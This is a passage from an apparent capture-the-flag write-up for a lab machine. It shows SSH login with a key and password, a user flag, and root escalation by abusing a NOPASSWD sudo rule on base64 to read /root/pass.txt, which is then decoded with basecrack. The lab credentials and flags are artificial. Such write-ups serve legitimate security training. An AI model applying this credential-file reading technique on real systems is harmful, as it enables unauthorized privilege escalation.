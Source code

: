 ### ssh
* Set the permissions of the key: `chmod 600 fred.key`
* We can now ssh in as fred with `ssh fred@10.10.108.130 -i fred.key` and by typing in his password (`YabbaDabbaD0000!`)

* `cat ~/fred.txt` gives us the flag: `THM{08da34e619da839b154521da7323559d}`


# Getting root
* Once again, we can run `sudo -l`:
```
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
* Fred can run base64 on the `/root/pass.txt` file as root

* To get the contents of the file, we can run `sudo base64 /root/pass.txt | base64 -d`:
```
LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK
```

* This doesn't work as a password, so we have to figure out what it is
	* I used [basecrack](https://github.com/mufeedvh/basecrack)
`basecrack -b LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK -m`
```
[-] Encoded Base: LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK

[-] Iteration: 1

[-] Heuristic Found Encoding To Be: Base32

[-] Decoding as Base32: YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkMDVhMzFkNTYK

{{<<======================================================================>>}}

[-] Iteration: 2

[-] Heuristic Found Encoding To Be: Base64

[-] Decoding as Base64: a00a12aad6b7c16bf07032bd05a31d56

{{<<======================================================================>>}}

[-] Total Iterations: 2

[-] Encoding Pattern: Base32 -> Base64

[-] Magic Decode Finished With Result: a00a12aad6b7c16bf07032bd05a31d56
```
